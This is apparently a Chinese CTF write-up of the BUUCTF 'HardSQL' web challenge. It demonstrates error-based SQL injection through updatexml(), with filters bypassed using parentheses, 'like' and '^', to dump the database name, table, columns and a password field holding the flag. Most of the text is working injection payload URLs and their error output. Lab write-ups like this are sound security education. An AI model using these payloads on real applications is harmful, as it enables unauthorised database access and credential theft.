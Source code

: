 # [[极客大挑战 2019]HardSQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)



## 0x00先判断闭合



```sql
http://d33ccc9f-5b20-4f07-b47a-2514382628a0.node4.buuoj.cn:81/check.php?username=admin&password=admin%27
```



结果为

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin''' at line 1
```



存在" ' "闭合



## 0x01进行注入



```sql
http://d33ccc9f-5b20-4f07-b47a-2514382628a0.node4.buuoj.cn:81/check.php?username=admin&password=admin' order by 1%23
```



发现被过滤



经测试：and、or、空格、=、等都被过滤了（建议直接抓包使用fuzz跑）



空格和“=”用不了，所以我们要使用（）来代替空格，使用like来代替”=“ ，^  等同于 and  



## 0x02使用报错注入extractvalue、updatexml函数



这里使用updatexml函数，查询四件套



```sql
http://d33ccc9f-5b20-4f07-b47a-2514382628a0.node4.buuoj.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(database())),'~'),1)%23


~的ASCII码值就是0x7e
```



结果为



```sql
XPATH syntax error: '~geek~'
```



## 0x03继续使用updatexml函数查询表名，字段等



```sql
http://d33ccc9f-5b20-4f07-b47a-2514382628a0.node4.buuoj.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),'~'),1)%23
```



结果为



```sql
XPATH syntax error: '~H4rDsq1~'
```



继续查找H4rDsq1表下的内容



```sql
http://d33ccc9f-5b20-4f07-b47a-2514382628a0.node4.buuoj.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~'),1)%23
```



结果为



```sql
XPATH syntax error: '~id,username,password~'
```



查找password字段下的内容



```sql
http://d33ccc9f-5b20-4f07-b47a-2514382628a0.node4.buuoj.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(password)from(H4rDsq1)),'~'),1)%23
```



找到一半flag



```sql
XPATH syntax error: '~flag{6de4f947-feea-4f48-af1e-b1'
```



## 0x04找另一半，从右往左截取



```sql
http://d33ccc9f-5b20-4f07-b47a-2514382628a0.node4.buuoj.cn:81/check.php?username=admin&password='^updatexml(1,concat('~',(select(right((password),30))from(H4rDsq1)),'~'),1)%23
```



找到另一半flag



```sql
XPATH syntax error: '~7-feea-4f48-af1e-b1e92a5d9227}~'
```



将2个拼接得到完整flag



flag{6de4f947-feea-4f48-af1e-b1e92a5d9227}



## 0x05补充



wp参考[BUUCTF-Web_第一页_WP总结笔记](https://blog.aabyss.cn/post-130.html)



[XPath 语法](https://www.w3school.com.cn/xpath/xpath_syntax.asp)



[SQL server中截取字符串的常用函数--LEFT()、RIGHT()、SUBSTRING()](https://blog.csdn.net/lanxingbudui/article/details/87979290)



[学习基于extractvalue()和updatexml()的报错注入](https://blog.csdn.net/zpy1998zpy/article/details/80631036?spm=a2c6h.12873639.0.0.1f1b78cek8ZUwJ)



[sql报错注入：extractvalue、updatexml报错原理](https://developer.aliyun.com/article/692723#slide-2)





作者

SihUi